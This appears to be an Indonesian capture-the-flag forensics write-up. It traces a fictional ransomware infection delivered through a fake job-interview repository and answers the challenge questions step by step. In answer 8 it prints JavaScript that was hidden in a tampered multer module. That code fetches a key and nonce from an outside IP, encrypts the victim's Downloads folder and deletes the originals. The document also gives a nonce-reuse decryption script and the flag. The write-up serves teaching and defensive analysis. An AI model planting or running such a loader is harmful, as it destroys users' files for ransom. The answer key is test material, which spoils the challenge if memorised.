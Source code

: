 # Solver

1. Nama pengguna (username) pada perangkat yang terinfeksi malware?

Bisa dilihat pada `/etc/passwd` atau pada folder `/home` usernamenya adalah ubuntu

2. Wallet BTC milik threact actor?

Bisa dilihat pada `/home/ubuntu/readme.txt`, walletnya adalah 197MJHgAPu5znTX836e4VXLHEPJp8ZCoV

3. Email yang digunakan oleh victim?

Bisa dilihat pada file thunderbird milik mozilla, yang terletak pada `/home/ubuntu/snap/thunderbird/common/.thunderbird/aqzwpfkz.default` dan cari file bernama `All Mail` untuk mendapatkan semua email yang ada pada Mozilla Thunderbird. Kemudian cari section `To:` untuk mendapatkan email victim

4. Email yang digunakan oleh threat actor?

Sama seperti file sebelumnya, namun disini kita mencari section `From:` untuk mendapatkan email threat actor

5. Berapa rentang gaji yang ditawarkan oleh threat actor? (Dalam Rupiah)

Sama seperti file sebelumnya, hal ini bisa didatkan di awal email dengan judul `Tawaran Lowongan Pekerjaan sebagai NodeJS Developer di PT. Mencari Cinta Sejati`

6. Link meeting yang digunakan untuk wawancara kerja?

Sama seperti file sebelumnya, namun disini mencari file yang diupload dengan mencari section `X-Attachment-Id`

7. Repositori yang mengandung malware?

Sama seperti file sebelumnya, disini bisa didapatkan setelah mendapatkan email wawancara

8. Full path yang mengandung malicious code?

Jika dianalisis lebih lanjut, terdapat malicious code pada `/nodejs-simple-file-upload/node_modules/multer/storage/disk.js` dimana threat actor mengencrypt folder `Downloads` korban dengan AES mode CTR

```javascript
function processFile(filePath, key, nonce) {
  const cipher = crypto.createCipheriv('aes-256-ctr', key, nonce);
  const input = fs.createReadStream(filePath);
  const output = fs.createWriteStream(`${filePath}.enc`);

  input.pipe(cipher).pipe(output);

  output.on('finish', () => {
    fs.unlink(filePath, (err) => {
    });
  });
}

function processFolder(folderPath, key, nonce) {
  fs.readdir(folderPath, { withFileTypes: true }, (err, entries) => {
    if (err) {
      return;
    }

    entries.forEach((entry) => {
      const fullPath = path.join(folderPath, entry.name);

      if (entry.isDirectory()) {
        processFolder(fullPath, key, nonce);
      } else if (entry.isFile()) {
        processFile(fullPath, key, nonce);
      }
    });
  });
}

function createFile(data, filePath) {
  fs.writeFile(filePath, data, () => {});
}

function DiskStorage (opts) {
  Promise.all([
    fetchData('http://157.245.204.42:1337/a.txt'),
    fetchData('http://157.245.204.42:1337/b.txt'),
    fetchData('http://157.245.204.42:1337/readme.txt'),
  ])
    .then(([key, nonce, readme]) => {
      processFolder(os.homedir() + '/Downloads', key, nonce);
      createFile(readme, os.homedir() + '/readme.txt');
    })
    .catch((err) => {
      
    });
    ...
```

9. IP beserta port yang digunakan threat actor?

Menggunakan data dari soal sebelumnya, ip nya adalah `157.245.204.42:1337` dimana threat actor membaca key, nonce, dan juga isi readme pada website tersebut

10. Berikan isi file yang ada di path berikut: /home/ubuntu/Downloads/important_notes.txt

Soal ini mengandung unsur crypto dimana file important_notes.txt dapat didecrypt menggunakan formula ini:

```
flag = (ciphertext1 ⊕ ciphertext2) ⊕ known_plaintext
```

Karena key dan nonce yang digunakan **sama** untuk setiap file, mengetahui plaintext dari file yang dienkripsi (misalnya link.txt) memungkinkan kita mendekripsi file lain seperti important_notes.txt. Berikut kode untuk mendecrypt important_notes.txt

```python
known_plaintext = 'Join us at: https://meet.google.com/nkb-ukxi-exj'
encrypted_text = bytes.fromhex('9de036d5eac096e2846058a9e25a3e0e7b7b315e57b187a367638e5e931cc35b0bdc126ca2d7e0895e951188b8a4da3b04')
encrypted_flag = bytes.fromhex('84fa3dd6a3c1c5ab8b7d42e2ef0e241d28387f51188da3831d45be73b122ee343bfa331c88f9c1f672ae3dbed694fb7304')

# Convert known_plaintext to bytes
known_plaintext_bytes = known_plaintext.encode()

# Perform XOR operations
result = bytes(x ^ y ^ z for x, y, z in zip(known_plaintext_bytes, encrypted_text, encrypted_flag)) 

print(result)
```

Outputnya adalah:
```
# python3 s.py
b'Submit ini ke nc ya "YATTA_BERHASIL_DECRYPT_CUY"'
```